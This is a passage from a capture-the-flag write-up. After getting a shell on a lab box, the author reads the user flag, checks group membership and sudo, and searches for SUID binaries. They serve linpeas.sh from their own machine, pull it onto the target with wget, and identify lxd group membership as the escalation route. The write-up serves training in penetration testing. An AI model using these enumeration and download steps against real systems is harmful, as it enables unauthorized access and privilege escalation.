 We're in! User flag here we come:

```
john@exploitable:~$ pwd
/home/john
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
<REDACTED>
```

One flag down, one to go.

<br>

## Server Digging

The first thing I usually check is the /etc/passwd file to see what users are on the system and in this case it's just root and John.

Checking out the `id` command to see which groups John is a member of:

```
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

He's a member of sudo, but we don't have his password yet and can't see what he's allowed to do.

`sudo -l`:

```
[sudo] password for john: 
```

Maybe there is a quick privilege escalation using a SUID file? I run:

`find / -type f -perm /4000 2> /dev/null`

but nothing interesting comes back.

Time to run a linpeas scan and see what we can find. I start up a http server on my system with:

`python3 -m http.server 80`

and then download the file on the target system by running:

`wget http://<MY IP>/linpeas.sh`:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.157.225 - - [30/Jan/2022 22:50:25] "GET /linpeas.sh HTTP/1.1" 200 -
```

I make linpeas.sh executable via:

`chmod +x linpeas.sh`

and run it. The only thing that comes back as interesting is the fact that **lxd** is running on the system, and we're a member of the group. Given that lxd was listed in the tags for this CTF this seems like a good bet to explore further.
